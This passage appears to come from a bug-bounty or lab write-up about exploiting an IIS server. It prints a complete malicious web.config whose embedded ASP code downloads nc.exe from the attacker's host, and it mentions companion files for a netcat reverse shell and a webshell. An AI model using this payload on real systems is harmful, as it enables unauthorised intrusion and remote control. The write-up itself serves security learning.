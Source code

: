 ![RCE success](/assets/imgs/bounty/rce_success.PNG)

Nice I have code execution, now with some more Googling, I found this repository : [https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c), who gives 3 web.config files :

- First : Download nc.exe on to the machine
- Second : Launch nc.exe to get a reverse shell
- Third : A webshell

I used the first two, upload nc.exe on the machine :

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' Set your settings
    strFileURL = "http://10.10.14.10:8000/nc.exe"
    strHDLocation = "C:\Windows\Temp\nc.exe"
' Fetch the file
    Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    objXMLHTTP.open "GET", strFileURL, false
    objXMLHTTP.send()
    If objXMLHTTP.Status = 200 Then
      Set objADOStream = CreateObject("ADODB.Stream")
      objADOStream.Open
      objADOStream.Type = 1 'adTypeBinary
      objADOStream.Write objXMLHTTP.ResponseBody
      objADOStream.Position = 0    'Set the stream position to the start
      Set objFSO = Createobject("Scripting.FileSystemObject")
        If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
      Set objFSO = Nothing
      objADOStream.SaveToFile strHDLocation
      objADOStream.Close
      Set objADOStream = Nothing
    End if
    Set objXMLHTTP = Nothing
    
Response.write("<!-"&"-")
%>
-->
```